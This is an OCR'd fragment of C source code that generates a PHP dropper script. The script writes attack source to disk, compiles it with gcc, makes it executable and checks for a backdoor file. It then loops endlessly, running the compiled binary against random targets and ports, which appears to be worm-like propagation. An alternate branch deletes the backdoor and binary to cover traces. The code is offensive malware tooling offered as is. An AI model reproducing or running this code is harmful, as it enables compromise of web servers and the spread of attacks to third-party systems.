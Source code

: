  fprintf(fp,"$fp=fopen('%s','w');\n"
  "fputs($fp,$cont);\n"
  "fclose($fp);\n\n",CODE_PATH_SRC);
 fprintf(fp,"$RES=`gcc -o %s %s`;\n\n",CODE_PATH,CODE_PATH_SRC);

 fprintf(fp,"chmod('%s',0755);\n",CODE_PATH);

 fprintf(fp,"if(($fp=fopen('%s','r'))!=NULL){\n",BACKDOOR_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",MAKE_STR1);
 fprintf(fp,"} fclose($fp);\n\n");
 fprintf(fp,"if(($fp=fopen('%s','r'))!=NULL){\n",CODE_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",MAKE_STR2);
 fprintf(fp,"} fclose($fp);\n\n");

#if 1
 fprintf(fp,"$fnum=(rand()%%%d);\n",TARGET_NUM);
 fprintf(fp,"$snum=(rand()%%%d);\n",SEARCH_NUM);
 fprintf(fp,"$randnum=(rand()%400);\n");
 
 fprintf(fp,"while(1)\n{\n");
 fprintf(fp,"if(($fp=fopen('%s','r'))!=NULL)\n"
  "{\n"
  "$pnum=fread($fp,32);\n"
  "fclose($fp);\n"
  "$pnum=str_replace(\"\\n\",\"\",$pnum);\n"
  "if(($fp=fopen('/proc/'.$pnum.'/stat','r'))!=NULL)\n"
  "{\n"
  "exit;\n"
  "}\n"
  "}\n\n",PRC_FILE);

 fprintf(fp,"$port=(rand()%%65500);\n");
 fprintf(fp,"if($port>1024){\n");
 fprintf(fp,"exec(\"./%s -t $fnum -p $port -s $snum -q $randnum\");\n",CODE_PATH);
 fprintf(fp,"}\n}\n");
#else
 fprintf(fp,"unlink('%s');\n",BACKDOOR_PATH);
 fprintf(fp,"unlink('%s');\n",CODE_PATH);
 fprintf(fp,"if(($fp=fopen('%s','r'))==NULL){\n",BACKDOOR_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",DELT_STR1);
 fprintf(fp,"} else { fclose($fp);\n");
 fprintf(fp,"$result=`rm -f %s`;\n$result=`del %s`;\n",BACKDOOR_PATH,BACKDOOR_PATH);
 fprintf(fp,"if(($fp=fopen('%s','r'))==NULL){\n",BACKDOOR_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",DELT_STR1);
 fprintf(fp,"}\n}\n");
 fprintf(fp,"if(($fp=fopen('%s','r'))==NULL){\n",CODE_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",DELT_STR2);
 fprintf(fp,"} else { fclose($fp);\n");
 fprintf(fp,"$result=`rm -f %s`;\n$result=`del %s`;\n",CODE_PATH,CODE_PATH);
 fprintf(fp,"if(($fp=fopen('%s','r'))==NULL){\n",CODE_PATH);
 fprintf(fp,"echo \"%s\\n\";\n",DELT_STR2);
 fprintf(fp,"}\n}\n");
#endif
 fprintf(fp,"?>\n");
 fclose(fp);
}
